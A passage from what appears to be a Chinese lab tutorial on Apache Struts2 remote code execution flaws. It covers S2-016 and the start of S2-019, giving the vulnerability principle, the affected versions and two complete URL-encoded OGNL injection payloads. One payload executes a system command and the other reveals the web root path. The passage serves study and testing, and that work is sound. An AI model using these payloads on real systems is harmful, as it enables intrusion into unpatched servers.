 ### 4.9 S2-016远程代码执行漏洞

#### 漏洞原理

##### 在struts2中，DefaultActionMapper类支持以"action:"、“redirect:”、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

#### 影响版本

```php
Struts 2.0.0 – 2.3.15
```

#### 启动漏洞

![image-20210709141210926](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1231aeab903ec7bb084b803ef157fe1b37e24230.png)

![image-20210709142755893](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b225c07f50863b5335e24dd754d66a4ef5fc8b84.png)

##### 验证漏洞是否存在-poc-1

```php
http://192.168.9.234:8080/index.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```

![image-20210709143222540](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bdf89a0f54ee31bdc8fcf2a675f6bf5ea14fc106.png)

##### poc-2

```php
http://192.168.9.234:8080/index.action?redirect:%24%7B%23req%3D%23context.get(%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletReq%27%2B%27uest%27)%2C%23resp%3D%23context.get(%27co%27%2B%27m.open%27%2B%27symphony.xwo%27%2B%27rk2.disp%27%2B%27atcher.HttpSer%27%2B%27vletRes%27%2B%27ponse%27)%2C%23resp.setCharacterEncoding(%27UTF-8%27)%2C%23ot%3D%23resp.getWriter ()%2C%23ot.print(%27web%27)%2C%23ot.print(%27path%3A%27)%2C%23ot.print(%23req.getSession().getServletContext().getRealPath(%27%2F%27))%2C%23ot.flush()%2C%23ot.close()%7D
```

![image-20210709144813571](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4ec9fdad06ce07735430ff3a5991471c5ce6289c.png)

### 4.10 S2-019远程代码执行漏洞

#### 漏洞原理

##### 要求开发者模式，且poc第一个参数是debug，触发点在DebuggingInterceptor上，查看intercept函数，从debug参数获取调试模式，如果模式是command，则把e xpression参数放到stack.findValue中，最终放到了ognl.getValue中。
